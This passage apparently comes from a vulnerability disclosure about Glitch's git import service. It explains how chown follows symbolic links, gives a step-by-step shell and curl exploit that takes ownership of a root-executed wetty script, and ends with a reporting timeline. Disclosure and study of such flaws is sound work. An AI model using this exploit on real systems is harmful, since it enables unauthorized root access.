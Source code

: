 Then we let the service finish and clean things up.

```sh
wait "$command_pid"
kill "$server_pid"
wait "$server_pid"
```

## Vulnerability 2: chown dereferences symbolic links

After the service clones the repository as root, the contents are owned by root, so they have to `chown` everything.
It looks like the implementation had other issues, such as not recursively going into subdirectories.

The main thing about it is that it uses [`chown`](https://manpages.ubuntu.com/manpages/xenial/en/man2/chown.2.html), which dereferences symbolic links (`lchown` being the one that changes the ownership of the symbolic link itself).

We could create a repository containing a symbolic link to a system file that root would normally execute.
When we clone the repository, the service will give us ownership of that file, and we could alter it so that we can run something of our choosing when root executes it.

### Sample exploitation

```sh
cd /tmp
mkdir s
cd s
git init
git config user.name w
git config user.email none
ln -s /opt/wetty/wetty-command.sh .
git add wetty-command.sh
git commit -m "A"
git show
git update-server-info
cd ..
curl -v -H 'Content-Type: application/json' -d '{"repoUrl": "file:///tmp/s"}' http://localhost:1083/git/import
```

We'd then edit `/opt/wetty/wetty-command.sh`, which gets executed as root when opening a terminal.

## Timeline

**2021/05/23**
I discover the chown vulnerability.

**2021/05/24**
I discover the hook injection vulnerability.

**2021/05/25**
I write up reports and send them to Glitch.
